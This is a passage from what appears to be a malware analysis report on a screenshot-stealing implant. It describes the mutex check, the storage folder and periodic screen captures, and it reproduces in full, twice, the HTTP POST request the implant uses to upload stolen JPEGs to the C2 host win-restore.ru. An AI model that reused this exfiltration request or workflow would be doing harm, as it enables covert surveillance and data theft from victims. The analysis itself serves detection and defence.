 Figure 8 Mutex check and creation routine
Next, it creates the following folder, if not already present:
"C:\Users\<Username>\AppData\Roaming\Microsoft\store"
Next, according to the configuration data in "desktop.ini" it constantly creates 24-bit color depth JPEG screenshots without extension in the store folder with help of GDI32 and gdiplus API functions. The following file naming scheme for the screenshots is used:
<year><month><day>_<hour><minute><seconds>
After the last screenshot was created, it uploads all files from the "store" folder to the C2 server "win-restore[.]ru". Then, it deletes all the files present in the folder and starts a new screenshot creation cycle. It should be noted that there is no check of what files are uploaded. The files are uploaded via POST HTTP method to the script "vvd.php". For this, the following HTTP request is used which contains also data from the victim as well the JPEG files:





POST /vvd.php HTTP/1.1
Accept: application/x-www-form-urlencoded
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=----------987978B0urd3Gf_$
Accept-Charset: utf-8
User-Agent: asasing
Host: win-restore.ru
Content-Length: <length>
Cache-Control: no-cache

------------987978B0urd3Gf_$
Content-Type: text/html
Content-Disposition: form-data; name="uuid"

WIN-MLABCSUOVJB_{826ee360-7139-11de-8d20-808e6f6e6263}1956047236
------------987978B0urd3Gf_$
Content-Type: application/octet-stream
Content-Disposition: form-data; name="file0"; filename="<year><month><day>_<hour><minute><seconds>"
Content-Transfer-Encoding: 8bit
...JPEG file...
------------987978B0urd3Gf_$
Content-Type: application/octet-stream
Content-Disposition: form-data; name="file1"; filename="<year><month><day>_<hour><minute><seconds>"
Content-Transfer-Encoding: 8bit
...JPEG file...
...
------------987978B0urd3Gf_$




123456789101112131415161718192021222324252627

POST /vvd.php HTTP/1.1Accept: application/x-www-form-urlencodedConnection: Keep-AliveContent-Type: multipart/form-data; boundary=----------987978B0urd3Gf_$Accept-Charset: utf-8User-Agent: asasingHost: win-restore.ruContent-Length: <length>Cache-Control: no-cache ------------987978B0urd3Gf_$Content-Type: text/htmlContent-Disposition: form-data; name="uuid" WIN-MLABCSUOVJB_{826ee360-7139-11de-8d20-808e6f6e6263}1956047236------------987978B0urd3Gf_$Content-Type: application/octet-streamContent-Disposition: form-data; name="file0"; filename="<year><month><day>_<hour><minute><seconds>"Content-Transfer-Encoding: 8bit...JPEG file...------------987978B0urd3Gf_$Content-Type: application/octet-streamContent-Disposition: form-data; name="file1"; filename="<year><month><day>_<hour><minute><seconds>"Content-Transfer-Encoding: 8bit...JPEG file......------------987978B0urd3Gf_$
